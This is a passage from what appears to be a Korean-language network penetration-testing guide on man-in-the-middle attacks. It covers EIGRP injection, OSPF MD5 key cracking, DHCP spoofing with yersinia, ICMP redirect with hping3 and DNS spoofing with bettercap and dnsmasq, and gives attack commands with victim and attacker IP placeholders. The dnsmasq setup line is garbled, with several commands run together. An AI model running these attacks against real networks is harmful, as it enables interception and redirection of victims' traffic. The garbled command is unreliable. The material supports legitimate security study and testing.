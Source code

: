 [**Coly**](https://code.google.com/p/coly/)는 EIGRP (Enhanced Interior Gateway Routing Protocol) 브로드캐스트를 가로채는 기능을 가지고 있습니다. 또한 패킷 주입을 허용하여 라우팅 구성을 변경하는 데 사용할 수 있습니다.

### OSPF

Open Shortest Path First (OSPF) 프로토콜에서는 **라우터 간의 안전한 통신을 보장하기 위해 MD5 인증이 일반적으로 사용됩니다**. 그러나 이 보안 조치는 Loki 및 John the Ripper와 같은 도구를 사용하여 손상될 수 있습니다. 이러한 도구는 MD5 해시를 캡처하고 해독할 수 있어 인증 키를 노출시킵니다. 이 키를 얻으면 새로운 라우팅 정보를 도입하는 데 사용할 수 있습니다. 경로 매개변수를 구성하고 손상된 키를 설정하기 위해 각각 _Injection_ 및 _Connection_ 탭이 사용됩니다.

- **MD5 해시 캡처 및 해독:** Loki 및 John the Ripper와 같은 도구가 사용됩니다.
- **경로 매개변수 구성:** _Injection_ 탭을 통해 수행됩니다.
- **손상된 키 설정:** 키는 _Connection_ 탭에서 구성됩니다.

### Other Generic Tools & Sources

- [**Above**](https://github.com/c4s73r/Above): 네트워크 트래픽을 스캔하고 취약점을 찾는 도구
- **네트워크 공격에 대한 더 많은 정보**는 [**여기**](https://github.com/Sab0tag3d/MITM-cheatsheet)에서 찾을 수 있습니다.

## **Spoofing**

공격자는 가짜 DHCP 응답을 보내 네트워크의 새로운 구성원의 모든 네트워크 매개변수(GW, IP, DNS)를 구성합니다.
```bash
Ettercap
yersinia dhcp -attack 2 #More parameters are needed
```
### ARP Spoofing

Check the [previous section](#arp-spoofing).

### ICMPRedirect

ICMP Redirect는 공격자가 IP에 도달하는 가장 좋은 방법임을 나타내는 ICMP 패킷 유형 1 코드 5를 전송하는 것입니다. 그런 다음 피해자가 IP에 연락하고자 할 때 패킷을 공격자를 통해 전송하게 됩니다.
```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```
### DNS Spoofing

공격자는 피해자가 요청하는 일부(또는 모든) 도메인을 해결할 것입니다.
```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```
**dnsmasq로 자체 DNS 구성**
```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```
### 로컬 게이트웨이
